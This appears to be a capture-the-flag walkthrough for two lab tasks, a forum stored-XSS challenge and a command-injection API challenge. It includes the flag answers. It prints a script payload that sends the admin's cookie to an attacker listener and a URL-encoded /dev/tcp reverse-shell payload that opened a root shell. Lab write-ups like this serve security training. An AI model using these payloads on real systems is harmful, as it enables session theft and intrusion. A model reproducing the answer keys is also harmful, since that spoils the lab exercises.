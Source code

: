 McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

_we need to learn more about the christmas monster_

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000[](http://[your-ip-address]:3000) - **it may take a few minutes to deploy.**

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

_P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth._

**Answer the questions below**

Q1: What is the admin's authid cookie value?
A: 2564799a4e6689972f6d9e1c7b406f87065cbf65
**Solution**
First register a account and then login with that account there you have to paste the following payload

```
payload: <script>window.location = ‘http://Local_Ip_Here:Port/page?param=’ + document.cookie </script>
```

After that you have to start a listener `netcat` is also use for this but in my case they don't work fine so i use the following command to start a listener  

```
$ ruby -run -ehttpd . -p4444
```

So now every thing is ready now you just have to wait in 2-3 min admin cookie is fetch by your listener.

## Task 24  [Day 19] Commands

Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on [http://[your-ip]:3000/]

McSkidy actually found something interesting on the /api/cmd endpoint.

Check out the supporting material [here](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit?usp=sharing).

**Answer the questions below**

Q1: What are the contents of the user.txt file?
A: 5W7WkjxBWwhe3RNsWJ3Q
**Solution**
Go to the following URL 
```URL
http://10.10.10.10:3000/api/cmd/ls
```
When we go there we see they run system command and give us the output of `ls` command so we have command execution to the target system so we can use it to get reverse shell or we can just get the flag also but for me i get reverse shell first with the following URL encoded payload: 
```ReverseShell
sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.8.10.33%2F4444%200%3E%261
```
This payload give me a reverse shell with root privileges after that i go to `/home/bestadmin` directory and there i got the user flag 
